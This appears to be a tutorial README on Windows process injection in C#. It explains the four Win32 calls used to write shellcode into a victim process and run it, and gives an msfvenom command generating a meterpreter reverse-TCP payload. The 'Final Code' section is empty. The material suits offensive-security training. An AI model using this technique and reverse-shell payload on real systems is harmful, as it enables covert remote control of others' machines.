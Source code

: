 # Theory

Process : A Container that is created to house a running application. Each Windows Process maintains it's own virtual space, interaction between these spaces can take place with the help of Win32 APIs

Thread : Executes the compiled assembly code of an application. A process can have multiple threads, each thread has its own stack and shares the memory of the process.

Win32 APIs : _OpenProcess_ , _VirtualAllocEx_ , _WriteProcessMemory_ and _CreateRemoteThread_.

> All Processes have **Integrity level**. Higher integrity level process can interact with lower integrity process, but the reverse is not possible. This is done to prevent privilege escalation.

> We can check the integrity levels : Right click on exe > Properties > Security

&nbsp;

# Process Injection in C#

We'll be using 4 Win32 APIs from Kernel32.dll -

- _OpenProcess_ : To open a channel from one process to another.
- _VirtualAllocEx_ : To modify it's memory space and create a memory space for our shellcode.
- _WriteProcessMemory_ : Write the shellcode to the created memory space.
- _CreateRemoteThread_ : To execute the shellcode in a new thread in the memory space.

&nbsp;

Understanding each Function in-depth :

**_OpenProcess_**

Function :

    HANDLE OpenProcess(
        DWORD dwDesiredAccess,
        BOOL bInheritHandle,
        DWORD dwProcessId
    );

Explanation :

- The first argument _dwDesiredAccess_ is the access right we want to obtain, it's value will be cross checked with the security descriptor.
- The second argument _bInheritHandle_ tells if the child process can inherit this handle. If it's value is **TRUE**, processes created by this process will iherit this handle.
- The third argument _dwProcessId_ is the Process ID of the process in which we want to inject our shellcode.

> Documentation :
>
> - https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess
> - https://docs.microsoft.com/en-gb/windows/win32/procthread/process-security-and-access-rights

&nbsp;

**_VirtualAllocEx_**

Function :

    LPVOID VirtualAllocEx(
        HANDLE hProcess,
        LPVOID lpAddress,
        SIZE_T dwSize,
        DWORD flAllocationType,
        DWORD flProtect
    );

Explanation :

- The first argument _hProcess_ is the process handle of the process.
- The second argument _lpAddress_ is the desired starting address in the allocated space.
- The third argument _dwSize_ sets the size of the allocated size.
- The dwSize contains the size of the buffer, in our case it is the size of our shellcode.
- The flAllocationType has the type of memory allocation(Types: MEM_COMMIT, MEM_RESERVE, MEM_RESET, MEM_RESET_UNDO)
- The flProtect has the memory Protections for the allocated memory

> Documentation :
>
> - https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex
> - https://docs.microsoft.com/en-us/windows/win32/memory/memory-protection-constants

&nbsp;

**_WriteProcessMemory_**

Function :

    BOOL WriteProcessMemory(
        HANDLE hProcess,
        LPVOID lpBaseAddress,
        LPCVOID lpBuffer,
        SIZE_T nSize,
        SIZE_T *lpNumberOfBytesWritten
    );

Explanation :

- The first argument _hProcess_ is the process handle of the victim process.
- The second argument _lpBaseAddress_ is the address of the allocated memory address.
- The third argument _lpBuffer_ is the buffer of the shellcode.
- The fourth argument _nSize_ is the size of the buffer.
- The fifth argument _\*lpNumberOfBytesWritten_ is the pointer to a variable that recieves the number of bytes transferred. If set to NULL, the parameter is ignored.

> Documentation :
>
> - https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory

&nbsp;

**_CreateRemoteThread_**

Function :

    HANDLE CreateRemoteThread(
        HANDLE hProcess,
        LPSECURITY_ATTRIBUTES lpThreadAttributes,
        SIZE_T dwStackSize,
        LPTHREAD_START_ROUTINE lpStartAddress,
        LPVOID lpParameter,
        DWORD dwCreationFlags,
        LPDWORD lpThreadId
    );

Explanation :

- The first argument _hProcess_ is the process handle of the victim process.
- The second argument _lpThreadAttributes_ is the desired security attributes
- The third argument is the initial size of the stack, we can set it to 0 to use the default values.
- The fourth argument _lpStartAddress_ is the starting address of the thread (address of the allocated buffer).
- The fifth argument _lpParameter_ is the pointer to a variable to be passed to the thread function.
- The sixth argument _dwCreationFlags_ controls the creation of the thread. It can have three values : 0, CREATE_SUSPENDED and STACK_SIZE_PARAM_IS_A_RESERVATION .
- The seventh argument _lpThreadId_ is a pointer to a variable that receives the thread identifier. If this parameter is NULL, the thread identifier is not returned.

> Documentation :
>
> - https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread

&nbsp;

MSFVENOM COMMAND :

    msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -f csharp EXITFUNC=thread

&nbsp;

Final Code :
